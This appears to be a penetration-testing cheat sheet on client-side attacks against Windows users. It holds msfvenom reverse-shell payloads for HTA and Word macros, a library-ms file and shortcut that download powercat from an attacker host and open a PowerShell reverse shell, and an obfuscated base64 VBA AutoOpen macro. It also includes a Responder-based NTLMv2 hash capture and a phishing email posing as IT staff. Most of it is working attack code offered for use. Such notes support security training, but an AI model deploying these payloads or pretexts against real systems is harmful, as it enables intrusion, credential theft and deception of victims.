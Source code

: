 ### http application attack(works against Internet Explorer and to some extent Microsoft Edge)
```
1. msfvenom -p windows/shell_reverse_tcp(windows/x64/shell_reverse_tcp,windows/x64/meterpreter/reverse_tcp) LHOST=10.11.0.4 LPORT=4444 -f hta-psh -o evil.hta
```

### office word macro development(vba script)
```
1. msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.4 LPORT=4444 -f vba -o evil
2. open word document and edit macro, copy paste then save as doc,docm
3. open a listener
```

### Evading Protected View
>This Microsoft Word document is highly effective when served locally, but when served from the Internet, say through an email or a download link, we must bypass another layer of protection known as Protected View,1 which disables all editing and modifications in the document and blocks the execution of macros or embedded objects.

### Windows library files
```
kali:
pip3 install wsgidav
mkdir /home/kali/webdav
touch /home/kali/webdav/test.txt
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/

Windows:
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.2(LHOST)</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
Save as config.Library-ms

Create .Ink shotcut file with command:
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.3:8000/powercat.ps1');powercat -c 192.168.119.3 -p 4444 -e powershell"
Save as automatic_configuration,put it in Lhost's webdav folder

Delivery via email:
Hello! My name is Dwight, and I'm a new member of the IT Team.

This week I am completing some configurations we rolled out last week.
To make this easier, I've attached a file that will automatically
perform each step. Could you download the attachment, open the
directory, and double-click "automatic_configuration"? Once you
confirm the configuration in the window that appears, you're all done!

If you have any questions, or run into any problems, please let me
know!

Lhost: nc -nlvp 4444
Lhost: python3 -m http.server
```
![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/ddb6330f-410c-4fd5-ad65-0baf3f7e9a96)
### Url File Fishing
```
1. Create file called "@hax.url" with following content:
[InternetShortcut]
URL=anything
WorkingDirectory=anything
IconFile=\\192.168.45.188(kali ip)\%USERNAME%.icon
IconIndex=1

2. if SMB share has write permission, upload @hax.url onto smb share
3. sudo responder -I tun0 -Av
Then you get ntlmv2 hash
```
### Office Macro Using Powershell base64 encoded reverse shell
1. Original Powershell Payload
```
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.181:8000/powercat.ps1');powercat -c 192.168.45.181 -p 4444 -e powershell
```
2.![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/1d716a30-3a3b-423a-bc1e-c0c3c346240e)
3. Using python to split and concatenate
```
str = "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAdwA..."
n = 50
for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')
```
4. Copy Macro script and convince victim to enable content
```
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    
    Str = Str + "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU"
        Str = Str + "AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd"
        Str = Str + "AAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwB"
    ...
        Str = Str + "QBjACAAMQA5ADIALgAxADYAOAAuADEAMQA4AC4AMgAgAC0AcAA"
        Str = Str + "gADQANAA0ADQAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsA"
        Str = Str + "A== "

    CreateObject("Wscript.Shell").Run Str
End Sub
```
